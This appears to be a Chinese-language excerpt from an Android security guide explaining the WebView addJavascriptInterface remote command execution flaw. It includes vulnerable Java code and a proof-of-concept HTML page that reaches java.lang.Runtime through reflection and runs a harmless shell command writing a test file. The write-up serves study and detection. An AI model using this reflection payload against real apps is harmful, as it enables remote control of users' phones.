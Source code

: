 ![](../pictures/androidac11.jpg)  

Webview 类是Android SDK 中封装的用于显示网页的组件，通过webview 组件应用可以轻松地开发内置浏览器访问网页，同时webview 组件中还提供了一些接口实现应用与页面中Javascript 脚本的交互，其中用于javascript 调用导出的java 类的 AddJavascripInterface 方法被发现存在远程命令执行漏洞，攻击者可以找到存在"getClass"方法的对象，然后通过反射的机制，得到Java Runtime对象，然后调用静态方法来执行系统命令。  

用户在使用包含此漏洞的应用访问特定的网页时会执行网页中的恶意代码，可导致手机被远程控制。相关漏洞代码示例如下：  
```
WebView webView = new WebView (R.id.webView1);
webView.getSettings().setJavaScriptEnabled(true);
webView.addJavascriptInterface(new TEST(), "demo");
webView.loadUrl("http://127.0.0.1/check.html");
```
Check.html 代码：  

``` html
<html>
<script>
function execute(cmd){
return demo.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(cmd);
}
execute(['/system/bin/sh','-c','echo  "hello" > /sdcard/check.txt']);
</script>
</html>
```
调用demo对象的getClass方法得到java.lang.Runtime对象，然后通过java反射机制调用getRuntime方法获得runtime实例，最终通过exec方法执行命令。代码执行成功会在SD卡根目录下生成check.txt文件。  
